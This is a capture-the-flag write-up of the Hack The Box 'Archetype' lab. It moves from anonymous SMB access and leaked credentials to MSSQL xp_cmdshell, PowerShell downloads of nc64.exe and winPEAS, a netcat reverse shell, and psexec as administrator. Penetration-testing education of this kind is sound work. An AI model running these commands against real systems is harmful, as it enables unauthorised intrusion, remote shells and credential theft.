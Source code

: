 ```yaml
---
layout: post
title: 00 - Archtype
date: 2022-08-20
categories: [Writeups,HTB,Very_Easy,Archtype]
tags: [smb,MSSQL]
---
```


# Intro
| Dificulty | OS | Start Date | End Date |
|---|---|---|---|
| Very Easy | Windows | 26/05/2022 | 28/05/2022 |


# Thought process
1. Common enumeration
2. Check `smbclient`
3. Use `impacket`
4. Try to execute reverse shell and find the user flag.
5. Privilege Escalation to find root flag.


# smbclient
> Check Samba Server from Linux
```bash
$ smbclient -N -L @Target_IP
```
[-N]: Suppresess the normal password prompt from the client to the user
[-L]: List what services are aviable

There's a folder call it "backups" that probably has more information.

> Access Samba folder
```bash
$ smbclient -N \\\\@Target_IP\\folder_name
```

`get file_name` To download file to our local machine.
[//]: The file is located in the directory from which the connection was established.

In these file we can see that there's a usrname:password.

> Bounty
```
ARCHETYPE\ sql_svc
M3g4c0rp123
```


# impacket
Collection of Python classes for working with network protocols. 
Impacket  is focused on providing low-level programmatic access to the packets and for some protocols. 

Download [Link](https://github.com/SecureAuthCorp/impacket)

> Connect to MSSQL
```bash
~/HTB/impacket/examples
└─$ python3 mssqlclient.py username@Target_IP -windows-auth
```
[-windows-auth]: Use Windows Authentication (Default False)


# MSSQL Server
Exploration Journey Link:
[Link 1](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
[Link 2](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

First check what role does the user has `SELECT is_srvrolemember('sysadmin');`
[//]: 1 = True

We can set up command execution because the user has admin privileges.

>  Set up System Command Execution
```sql 
SQL> EXEC sp_configure 'show advanced options', 1; — priv  
SQL> RECONFIGURE; — priv 
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1; — priv  
SQL> RECONFIGURE; — priv
```
[//]: Found in Link 2
[- priv]: Administrator privileges need it.

Now the server permits system commands.

> Test System Commands Execution
```SQL
SQL> xp_cmdshell "whoami";
```


# Reverse Shell
Now, attempt to get stable reverse shell. 
Use `nc64.exe` to execute interactive `cmd.exe` process on our listening port.
Download [Link](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------)

> Simple HTTP server
```bash
$ sudo python3 -m http.server 80
```

> Netcat Listener
```bash
$ sudo nc -lvnp 443
```
[netcat]: Read and Write data in the network.
[-l]: Listen incoming connection
[-v]: Verbose output
[-n]: Do not do DNS
[-p]: Specifies source port nc should use

Check the actual server directory. If the user doesn't have permission, change it.

> Current Server Directory
```sql
SQL> xp_cmdshell "powershell -c pwd";
```

In the current directory sql_svc does not have permission to execute things. 

> Change to user directory and execute Reverse shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IP/nc64.exe -outfile nc64.exe"
```

Verify if  the simple Python HTTP server recibed the request

> Execute Reverse Shell
```sql
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe @IP 443"
```

Now look back to the listener to confirme that reverse shell is working.

The user flag is in the user's Desktop.

---

# Privilege Escalation
## winPEAS
Is Windows Local Privilege Escalation Vector tool .
Download [Link](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

Transfer winPEAS to the target machine using Python HTTP server.

> Simple HTTP Server
```bash
$ sudo python3 -m http.server 80
```

On the Target Machine, execute wget in order to download the program from the Local Machine. Use powershell to do this process.
```bash
powershell
wget http://@IP/winPEASx64.exe -outfile winPEASx64.exe
```
[//]: User must have permission in that directory

> Exectue winPEAS
```bash
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

Can observer that we have [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege), which is also vulnerable to [juicy potato exploit](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato).

sql_svc is a normal user so it's worth checking for frequently access files or executed commands. Check the Powershell history file `ConsoleHost_history.txt`.

```bash
cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline
```

The file contains Administrator password.

> Bounty
```
administrator
MEGACORP_4dm1n!!
```

Now execute `psexec.py` from impacket to get a shell as the administrator

```bash
~/HTB/impacket/examples
└─$ python3 psexec.py administrator@Target_IP
```

The root flag can be found in the Desktop of the Administrator user.
